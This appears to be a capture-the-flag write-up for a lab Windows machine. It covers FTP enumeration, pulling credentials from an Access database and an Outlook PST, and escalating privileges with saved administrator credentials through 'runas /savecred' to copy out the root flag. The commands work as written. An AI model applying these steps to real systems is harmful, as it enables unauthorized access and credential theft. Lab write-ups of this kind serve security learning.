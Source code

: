 This is the first writeup in the series.
After accessing to http://10.10.10.98/ we get a picture of servers and a title named "LON-MC6". 
Searching in the internet for the name results in a server name. Basically, we have nothing else in the webiste.
The source code is empty.

First thing we do is to scan our address for open ports with nmap. We find that ports 23 and 21 are open. In addition, nmap indicates that anonymous login is enabled for the ftp server. So we login and wallah, there are 2 files! I tried to download the the second file (from Engineer folder). It was broken.
Okay, so after searching on the internet, I've figured that the default download way for my ftp client ('ftp' in debian) is ASCII where is the targeted file should be downloaded as binary. 
```ftp> lcd /root/Documents
Local directory now /root/Documents  //Desired destination on local machine
ftp> binary
---> TYPE I
200 Type set to I.
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
---> PORT 10,10,13,77,235,177
200 PORT command successful.
---> RETR backup.mdb
125 Data connection already open; Transfer starting.
226 Transfer complete.
5652480 bytes received in 13.63 secs (405.0628 kB/s)
```
Now in order to handle mdb files, we need to install mdbtools. Kali linux has it preinstall. Let's dive into the file:
```
mdb-schema backup.mdb
.
.
.
(alot of tables)
```
We have alot of data. Obviously we want to have username and password for the ftp server. Let's find the password field:
```
root@kali:~/Documents# mdb-schema backup.mdb | awk -vRS='' '/password/'     //looking for password field.
CREATE TABLE [auth_user]
 (
	[id]			Long Integer, 
	[username]			Text (100), 
	[password]			Text (100), 
	[Status]			Long Integer, 
	[last_login]			DateTime, 
	[RoleID]			Long Integer, 
	[Remark]			Memo/Hyperlink (255)
);
```
Now we know the interesting table name - auth_users.
Let's export it and see what we have:
```
root@kali:~/Documents# mdb-export backup.mdb auth_user
id,username,password,Status,last_login,RoleID,Remark
25,"admin","**",1,"08/23/18 21:11:47",26,
27,"engineer","**",1,"08/23/18 21:13:36",26,
28,"backup_admin","**",1,"08/23/18 21:14:02",26,
```
I thought these credentials would log me into the ftp server, but it seems that the ftp server is configured to anonymous logins only. I guess we are left only with the second file, so I downloaded it. It is encrypted with AES and the default linux unzip program doesn't support password extraction of this kind (the file was probably encrypted in Windows system). Therefore, one can download a tool called 7z. Kali comes with it preloaded. I tried engineer's password (the file was located in Engineer) and it worked:
```
ftp>get 'Access Control.zip'
root@kali:~/Documents# 7z x control.zip

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,1 CPU Intel(R) Core(TM) i7-7500U CPU @ 2.70GHz (806E9),ASM,AES-NI)

Scanning the drive for archives:
1 file, 10870 bytes (11 KiB)

Extracting archive: control.zip
--
Path = control.zip
Type = zip
Physical Size = 10870

    
Enter password (will not be echoed):
Everything is Ok         

Size:       271360
Compressed: 10870
```
Now we have a .pst file, which is Microsoft Outlook email folder. Googling for it leads to a program named readpst:
```
root@kali:~/Documents# readpst 'Access Control.pst' 
Opening PST file and indexes...
Processing Folder "Deleted Items"
	"Access Control" - 2 items done, 0 items skipped.
```
Now we have the email file itself. It contains a username and a password. It's probably for the telnet. Let's proceeed:
```
C:\Users\security\Desktop>type user.txt
***
```
This file has the user flag. We owned user. Now to root:
This took me a few hours, as I don't have expirience with windows. I got a few hints for hackthebox.eu and understood the following:
cmdkey /list allows us the see the credentials stored in the computer. THey might be only for one session or forever. This basially allows the run files with credentials without entering the password each time. running cmdkey /list shows that the password for administrator user is stored. That allows us the run files with admin privilege, in other words: we have a huge vulnerability.
The trick here is to copy the contents of root.txt file to security's folder.
We don't know where is root.txt file is, so we will first find it. We will use the function 'runas' which allows us to run programs with different profiles:
```
C:\Users\security\Desktop>runas /user:ACCESS\Administrator /savecred "c:\windows\system32\cmd.exe /c dir c:\users\administrator\ /s /b>c:\users\security\desktop\files.txt"
```
/savecred allows us to bypass the password promptt and use admin's credentials. We run cmd.exe with admin prevs and copy all files & folders addresses into files.txt file. We want to find root.txt now:
```
C:\Users\security\Desktop>type files.txt | find "root.txt"
c:\users\administrator\AppData\Roaming\Microsoft\Windows\Recent\root.txt.lnk
c:\users\administrator\Desktop\root.txt
```
Okay, it's in desktop. Now we will copy the contents of it into a file which is in security's desktop:
```
C:\Users\security\Desktop>runas /user:ACCESS\Administrator /savecred "c:\windows\system32\cmd.exe /c type c:\users\administrator\desktop\root.txt>c:\users\security\desktop\root.txt"
```
The flag is now in root.txt. We owned root.

*I read that there are additional methods involving metasploit, maybe I will add these later on when I will gain more knowledge in windows*

```



